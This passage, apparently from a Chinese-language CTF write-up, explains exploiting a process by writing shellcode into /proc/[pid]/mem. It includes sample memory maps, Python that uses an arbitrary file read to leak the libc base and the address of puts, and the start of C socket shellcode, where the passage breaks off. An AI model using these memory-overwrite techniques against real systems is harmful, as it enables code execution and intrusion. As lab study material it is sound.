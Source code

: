     >        
    >        address           perms offset  dev   inode       pathname
    >        00400000-00452000 r-xp 00000000 08:02 173521      /usr/bin/dbus-daemon
    >        00651000-00652000 r--p 00051000 08:02 173521      /usr/bin/dbus-daemon
    >        00652000-00655000 rw-p 00052000 08:02 173521      /usr/bin/dbus-daemon
    >        00e03000-00e24000 rw-p 00000000 00:00 0           [heap]
    >        00e24000-011f7000 rw-p 00000000 00:00 0           [heap]
    >        ...
    >        35b1800000-35b1820000 r-xp 00000000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a1f000-35b1a20000 r--p 0001f000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a20000-35b1a21000 rw-p 00020000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a21000-35b1a22000 rw-p 00000000 00:00 0
    >        35b1c00000-35b1dac000 r-xp 00000000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1dac000-35b1fac000 ---p 001ac000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1fac000-35b1fb0000 r--p 001ac000 08:02 135870  /usr/lib64/libc-2.15.so
    >        35b1fb0000-35b1fb2000 rw-p 001b0000 08:02 135870  /usr/lib64/libc-2.15.so
    >        ...
    >        f2c6ff8c000-7f2c7078c000 rw-p 00000000 00:00 0    [stack:986]
    >        ...
    >        7fffb2c0d000-7fffb2c2e000 rw-p 00000000 00:00 0   [stack]
    >        7fffb2d48000-7fffb2d49000 r-xp 00000000 00:00 0   [vdso]
    從以上訊息我們知道，/proc/[pid]/mem就是實際執行該隻process的memory，而/proc/[pid]/maps就是該隻process的memory mapping，所以關於怎麼利用可以看一下[csdn的這篇文章](https://blog.csdn.net/dog250/article/details/108618568)，基本上要做的事情和我們差不多，目標都是去修改/proc/[pid]/mem中的value，不過中間有很多東西需要考慮:
    1. 要寫甚麼shellcode
    2. 要寫去哪裡
    
2. 先看要寫去哪裡
    按照前面所說應該是要寫/proc/[pid]/mem，但因為前面有提到他只能被open / read / lseek給access，所以目標應該是找出lseek的offset，並且把噁爛shellcode放進去；另外一個問題是我們不知道要寫到哪裡，所以我們可以利用前面的arbitrary read去看process的mapping為何，如下
    ```python
    # Read /proc/self/maps to leak Libc Base
    maps_layout = read_any_file(b'/proc/self/maps').split('\n')
    libc_base = int(maps_layout[7][:12], 16)
    puts_addr = libc_base + libc.symbols['puts']
    log.success(f"Libc Base address: {hex(libc_base)}")
    log.success(f'Puts Address: {hex(puts_addr)}')
    ```
    這樣的話，我們就知道他位於整個memory layout，以及我們想要置換的puts symbols的位置
3. 要寫甚麼
    前面有提到我們需要寫shellcode進去，以替換puts的行為，所以我們需要寫些甚麼server才能噴flag給我們呢?如下
    ```cpp
    # Socket Config
    int fd = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in info;
    info.sin_family = PF_INET;
    info.sin_addr.s_addr = inet_addr("127.0.0.1");
    info.sin_port = htons(8765);
